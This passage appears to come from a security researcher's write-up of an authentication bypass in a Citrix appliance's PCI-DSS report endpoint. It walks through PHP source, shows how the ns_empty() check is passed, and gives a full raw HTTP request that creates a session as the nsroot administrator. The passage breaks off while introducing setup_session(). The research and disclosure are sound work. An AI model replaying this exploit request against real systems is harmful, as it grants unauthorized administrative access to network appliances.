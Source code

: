 ```php
$nitro = new nitro();
$nitro_return_value = $nitro->v1($arg_list[0], $arg_list[1] . $query_params);
```

Remember how it would also return `0` if something went wrong? Like, when you'd say it was getting XML but it really wasn't? Can you feel where this is going? Our `$query_params` right now are basically garbage. So `$nitro_return_value` would then be `0`.

Luckily, there's a check to see if the command failed:
```php
// Process result
if(ns_empty($nitro_return_value) || $nitro_return_value === false)
{
    $this->set_error_code();
    $this->set_error_message($command);
}
```

Wait, what does that `ns_empty()` function do?
```php
function ns_empty(&$var)
{
    return empty($var) && ($var != "0");
}
```

Ha! That returns `FALSE` in our case. So we pass the check! Here's all of this in one HTTP request (the cookie value can be whatever, as long as its a 32 character hex string):

```http
POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 44
DNT: 1
Connection: close
X-NITRO-USER: henk
Cookie: SESSID=05afba59ef8e0e35933f3bc266941337
X-NITRO-PASS: ingrid
Upgrade-Insecure-Requests: 1

<appfwprofile><login></login></appfwprofile>
```

### Fixing the session
We have a somewhat valid session now. Let's see if we can make it more valid, as we are missing some attributes. All we have at the moment is `username` and a broken `sid`. Luckily, we can now use a function called `setup_session()`. This function takes two required arguments: `sid` and `username`, but also has an optional parameter called `force_setup`. 
